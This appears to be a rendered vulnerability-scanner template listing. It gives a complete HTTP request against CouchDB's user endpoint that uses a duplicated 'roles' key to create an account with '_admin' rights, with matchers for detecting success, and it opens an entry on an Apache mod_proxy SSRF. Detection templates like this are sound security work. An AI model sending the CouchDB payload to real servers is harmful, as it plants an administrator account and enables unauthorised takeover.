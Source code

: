 ## Requests

### Step - 1

```
PUT /_users/org.couchdb.user:poc HTTP/1.1
Host:  {{Hostname}}
Accept: application/json

{
  "type": "user",
  "name": "poc",
  "roles": ["_admin"],
  "roles": [],
  "password": "123456"
}

```

### Matchers

**Type - word**

- part - header
- words
  1. application/json
  2. Location:

**Type - word**

- part - body
- words
  1. org.couchdb.user:poc
  2. conflict
  3. Document update conflict

**Type - status**

- status
  1. 201
  2. 409

---

# Apache \<= 2.4.48 - Mod_Proxy SSRF

## Description

- Apache 2.4.48 and below contain an issue where uri-path can cause mod_proxy to forward the request to an origin server chosen by the remote user.
- severity - critical
- tags - cve,cve2021,ssrf,apache,mod-proxy,kev
